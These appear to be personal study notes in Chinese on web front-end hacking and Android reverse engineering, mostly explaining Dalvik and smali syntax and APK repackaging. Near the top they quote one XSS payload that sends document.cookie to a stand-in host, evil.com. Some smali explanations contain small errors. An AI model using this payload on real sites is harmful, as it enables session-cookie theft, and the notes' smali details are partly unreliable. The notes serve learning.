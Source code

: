 # 学习笔记
## 1. Web前端黑客技术揭秘
### POC理解&学习
1. XSS获取敏感信息：eval(‘new Image().src=“http://www.evil.com/steal.php?c=“+escape(document.cookie)')

## 2. Android逆向学习
### 基础知识
1. Davlik Android OS的虚拟机，Dalvik基于寄存器，Java VM基于栈，二者明显区别。Davlik专属文件执行格式dex，比Java JVM运行快，内存占用少。
2. 反编译 Apktool、dex2jar+jd-gui，最终修改APK需要操作.smali文件，然后再使用Apktool将修改的文件打包成APK，再使用 jarsigner进行APK签名：jarsigner -keystore name.keystore Folder keystorealias -keypass passwd
3. Davlik中寄存器32位，64位类型（Long/Double）用2个寄存器表示，字节码2中类型：原始类型、引用类型（包括对象和数组）
	- B- - -byte
	- C- - -char
	- D- - -double
	- F- - -float
	- I- - -int
	- J- - -long
	- S- - -short
	- V- - -void
	- Z- - -boolean
	- [XXX- - -array
	- Lxxx/yyy- - -object : LpackageName/objectName$subObjectName;
4. smali函数
	1.  hello()V —\> void hello()
	2. hello(III)Z —\> boolean hello(int,int,int)
	3. hello(Z[I[ILjava/lang/String;J)Ljava/lang/String; —\> String hello(boolean,int[],int[],String,long)
5. Smali基本语法
	1. .field private isFlag:z   定义变量  
		.field button\_login:Landroid/widget/Button;
	2. .method  方法
		.method protected onCreate(Landroid/os/Bundle;)V  
	3. .parameter  方法参数
		.param p1, "name"    # Ljava/lang/String;
	4. .prologue  方法开始
	5. .line 36   此方法位于36行
	6. Invoke-super  调用父函数
	7. Return-void  函数返回void
	8. Move-result v0   上面函数执行的结果赋值给v0
	9. .end method 函数结束
	10. New-instance 创建实例
	11. Input-object  对象赋值
	12. Iget-object  调用对象
	13. Invoke-static  调用静态函数
	14. Invoke-virtual  调用函数
		invoke-virtual {p1, v0}, Ljava/lang/String;-\>equals(Ljava/lang/Object;)Z  
	15. Const-string  string赋值
		const-string v0, "snow"
6. smali的条件分支
	1. If-eq vA,vB,:cond\_\*\* 如果vA和vB相等，则跳转至cond\_\*\*  
	2. If-ne（不等于）、if-lt（小于）、if-ge（大于等于）、if-gt（大于）、if-le（小于等于）
	3. If-eqz v0:cond\_\*\* 如果V0等于0，则跳转至cond
	4. If-nez（不等于0）、if-ltz、if-gtz、if-gez、if-lez
7. 类的声明：
	.class public Lcom/aaaa;
	.super Lcom/bbbb;
	.source “ccc.java”
	包路径、父类、文件名称
	\#annotations 
	.annotation system Ldalvik/annotation/MemberClasses;
	value={
	Lcom/aaa$qq;
	Lcom/aaa$bb;
	}
	内部类：aaa类的两个成员内部类qq和bb；
8. 寄存器V开头的是指本地寄存器，P开头的是指参数寄存器，对于非static函数中,P0代表“this”，P1代表第一个参数，而在static函数中，P0代表第一个参数。
	const/4 v0,0x1
	input-boolean v0,p0,Lcom/aaa;-\>IsRegistered:Z 
	0x1放入本地寄存器v0，input-boolean将v0的值存放在com.aaa.IsRegistered变量中。
9. 成员变量：
	1. .field public/private [static] [finale] varName:\<类型\> 
	2. 不同的变量，不同的指令：iget、sget、iget-boolean、sget-boolean、iget-object、sget-object等；input、input-boolean、sput-boolean、iput-object、sput-object等；-object后缀的表示操作对象是对象类型，对boolean类的操作则使用-boolean。
	3. Sget-object v0,Lcom/aaa;-\>ID:Ljava/lang/String; 获取com.aaa.ID的值放入V0
	4. Iget-object v0,p0,Lcom/aaa;-\>view:Lcom/aaa/view; 此处多了一个参数p0，指的是this，array变量采用aget和aget-object
	5. this.timer=null  
		const/4 v3,0x0
		sput-object v3,Lcom/aaa;-timer:Lcom/aaa/timer;
	6. .local v0, args:Landroid/os/Message;
		 const/4 v1, 0x12
		 input v1, v0,Landroid/os/Message;-\>what:I
		 此处args是Message的实例，args.what=18
10. 函数调用：
	1. 函数分为direct method和virtual method，简单说direct 即private函数，其余的public和protected均属于virtual函数，所以在调用函数时，有invoke-direct、invoke-virtual，另外以及invoke-static、invoke-super、invoke-interface等几种不同的指令，当然还有invoke-XXX/range的指令，这是指参数多余4个的时候调用的指令；
	2. Invoke-static{v0},Ljava/lang/System;-\>loadLibrary(Ljava/lang/String;)V 其中{}中指定函数调用的参数值；
		invoke-direct{p0},Landroid/app/TabActivity;-\>\<init\>()V =\> init()   
		invoke-virtual{v0,v1},Lcom/cc;-\>Message(Ljava/lang/Object;)V  
		invoke-direct/range{v0,…,v5},Lcom/pb/ui/PBContainerActivity;-h(Ljava/lang/CharSequence;Ljava/lang/String;Landroid/content/Intent;l)Z
	3. 在Java代码中，调用函数和返回值可以使用一条语句完成，但是在smali中需要分开来完成，如果返回的非void，需要使用move-result（返回基本数据类型）和move-result-object（返回对象）指令：
		const-string v0,”Eric”
		invoke-static{0},Lcmd/pbi;-\>t(Ljava/lang/String;)Ljava/lang/String;
		move-result-object v2 //v2保存的就是t方法返回的值
	4. 代码理解：
		Add-int/lit8 v0,v0,0x1  //将第二个v0寄存器中的值加上0x1的值，再放入第一个寄存器，实现自增长  
		.locals 4  //本地寄存器4个，即v0,v1,v2,v3,v4
		const/4 v2,0x1  //4字节常量 V2=1
		const/16 v1,0x10 //16字节常量v1=16
		.local v1,”length”:I  //赋值 length=v1 
		xor-int/lit8 v1,v1,0x3b  //将第二个寄存器v1的值和0x3b进行异或运算，赋值给第一个v1寄存器中
	5.  